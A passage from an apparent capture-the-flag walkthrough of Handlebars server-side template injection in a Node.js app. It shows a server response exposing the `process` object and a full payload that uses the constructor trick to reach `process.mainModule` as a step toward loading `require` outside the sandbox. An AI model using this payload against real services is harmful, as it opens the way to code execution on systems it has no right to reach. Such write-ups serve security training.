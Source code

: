 URL encoding the payload as done previously and sending it using BurpSuite's Repeater:


    <p class="result">
        We will contact you at:       e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
	        [object process]

    </p>


The response did not contain an error and we can see the `[object process]` has been included. This means that the process object is indeed available.

Taking a closer look at the [documentation](https://nodejs.org/api/process.html) of the process object, we see that it has a [mainModule](https://nodejs.org/api/process.html#processmainmodule) property that has been deprecated since version 14.0.0 of Node.js, however, deprecated does not necessarily mean inaccessible. A quick Google search using the keywords `Node.js mainModule` reveals [this](https://www.geeksforgeeks.org/node-js-process-mainmodule-property/) blog post that details the usage of this property.

Specifically, it mentions that this property *returns an object that contains the reference of main module.* Since handlebars is running in a sandboxed environment, we might be able to use the mainModule property to directly load the main function and since the main function is most probably not sandboxed, load require from there. Let's modify our payload once more to see if `mainModule` is accessible.

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule;"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```


URL encoding the payload and sending it using the Repeater again, we get the following response:
